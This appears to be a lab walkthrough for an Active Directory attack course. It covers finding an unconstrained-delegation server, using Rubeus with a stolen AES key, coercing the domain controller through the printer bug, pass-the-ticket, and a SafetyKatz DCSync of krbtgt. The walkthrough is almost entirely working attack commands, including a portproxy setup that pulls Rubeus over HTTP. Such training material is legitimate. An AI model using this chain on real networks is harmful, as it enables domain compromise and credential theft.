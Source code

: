 
---


# Objective - 15
#### Flag - Domain user who is a local admin on dcorp-appsrv	
- We first need to find a server that has unconstrained delegation enabled:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainComputer -Unconstrained | select -ExpandProperty name
```
- Since the prerequisite for elevation using Unconstrained delegation is having admin access to the machine, we need to compromise a user which has local admin access on appsrv. Recall that we extracted secrets of appadmin, srvadmin and websvc from dcorp-adminsrv. Let's check if anyone of them have local admin privileges on dcorp-appsrv.
- First, we will try with appadmin. Run the below command from an elevated command prompt:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Run the below commands in the new process:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local
```
#### Flag - Which user's credentials are compromised by using the printer bug for compromising dollarcorp	
**Printer Bug - Execute Rubeus using Loader and winrs**
- Run the below command from the process running appadmin:
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe /Y
```
- Run Rubeus in listener mode in the winrs session on dcorp-appsrv:
```
winrs -r:dcorp-appsrv cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.X

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```
**Use the Printer Bug for Coercion**
- On the student VM, use MS-RPRN to force authentication from dcorp-dc$
```
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
- On the Rubeus listener, we can see the TGT of dcorp-dc$
- Copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx...
```
- Now, we can run DCSync from this process:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
**Escalation to Enterprise Admins**